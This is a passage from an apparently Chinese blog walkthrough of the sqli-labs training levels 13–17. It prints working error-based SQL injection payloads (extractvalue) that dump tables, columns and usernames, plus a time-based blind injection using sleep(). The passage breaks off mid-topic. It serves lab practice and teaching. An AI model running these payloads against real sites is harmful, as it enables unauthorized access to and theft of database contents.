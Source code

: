![在这里插入图片描述](https://img-blog.csdnimg.cn/2024092a50694cd6a75d989e13ffd40c.png?x-os-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBAVExfX2dob3N0,size_20,color_FFFFFF,t_70,g_se,x_16)

爆表：

```
admin') and extractvalue(1,concat(0x7E,(select group_concat(table_name) from information_schema.tables where table_schema = 'security'),0x7E))#
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/6d53952d2f27445c9d32d14c76c5d3a7.png?x-os-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBAVExfX2dob3N0,size_20,color_FFFFFF,t_70,g_se,x_16)

查字段名：

```
admin') and extractvalue(1,concat(0x7E,(select group_concat(column_name) from information_schema.columns where table_schema = 'security' and table_name = 'users'),0x7E))#
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/09d73e5af66a4f688f244e8f56838b6b.png?x-os-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBAVExfX2dob3N0,size_20,color_FFFFFF,t_70,g_se,x_16)

查数据：

```
admin') and extractvalue(1,concat(0x7E,(select group_concat(username) from users),0x7E))#
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/cf3240aeb4f64f7383f78df06cfb657c.png?x-os-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBAVExfX2dob3N0,size_20,color_FFFFFF,t_70,g_se,x_16)

## Test 14

把闭合条件换成双引号加括号")，其他的和13一样

## Test 15(时间盲注)

和get型的时间盲注一样，即第九关，最好是写个python脚本，不然手注很费时间

这里抛一条语句做参考

```
admin' and if(ascii(substr(database(),1,1))>100,sleep(3),1)#
```

详细的关于这几个函数和怎么判断在前文8，9关都有详细介绍。

强烈建议写个python脚本，可以节约很多时间！！！（这里没找到好的脚本就先不写了）

## Test 16（时间盲注）

闭合条件变成了admin")，其他的和15一样，这里就不多赘述了

## Test 17

首先了解一个函数的用法:

**updataxml**-------和extractvalue的使用方法差不多，只是多了一个参数
